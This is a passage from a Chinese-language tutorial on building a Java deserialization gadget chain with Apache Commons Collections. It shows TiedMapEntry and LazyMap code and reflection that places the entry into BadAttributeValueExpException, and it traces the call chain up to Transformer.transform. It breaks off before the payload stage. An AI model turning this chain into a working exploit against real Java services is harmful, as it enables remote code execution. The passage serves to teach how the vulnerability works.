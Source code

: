 第二个有用的类是`TiedMapEntry`，它的本来用途是绑定一个Map到Map.entry，这里主要用到它的toString方法：

```java
public class TiedMapEntry implements Entry, KeyValue, Serializable {
    private static final long serialVersionUID = -8453869361373831205L;
    private final Map map;
    private final Object key;

    public TiedMapEntry(Map map, Object key) {
        this.map = map;
        this.key = key;
    }
    public Object getKey() {
        return this.key;
    }
    public Object getValue() {
        return this.map.get(this.key);
    }
	// ------	some functions bulabula	-------

    public String toString() {
        return this.getKey() + "=" + this.getValue();
    }
}

```

那这里的`toString()`中的`getValue()`实际就是`this.map.get(this.key)`了。很好，将上面两者组合一下，例如这样：

```java
// xxx 代表Transformer类，代表了转换的方式
final Map lazyMap = LazyMap.decorate(new HashMap(), xxx);
TiedMapEntry entry = new TiedMapEntry(lazyMap, "3345");
System.out.println(entry);
```

在进行toString输出时会调用getValue方法，而lazyMap里并没有“3345”这个key，于是便调用了factory.transform()方法。我们再将BadAttributeValueExpException这个类引入进来，因为它里面有我们要的注入点：

```java
BadAttributeValueExpException ve = new BadAttributeValueExpException(null);
// 这里利用一下反射机制访问它的“val”字段
Field field = ve.getClass().getDiclaredField("val");
field.setAccessible(true);
// 将上面的TiedMapEntry赋值给ve对象的val字段
field.set(ve, entry);
```

就像这样，当BadAttributeValueExpException的这个实例在做反序列化时，由于很多java程序默认不会设置`SecurityManager`，所以会进入第二个else if，从而调用`TiedMapEntry.toString() --> TiedMapEntry.getValue() --> LazyMap.get(non-exist-key) --> Transformer.transform()`，酱紫我们串起了调用链的前半环。

#### 第二环节

上面串了那么多的调用，为的就是引入Transformer接口类。而与之相关的类还有以下几个：
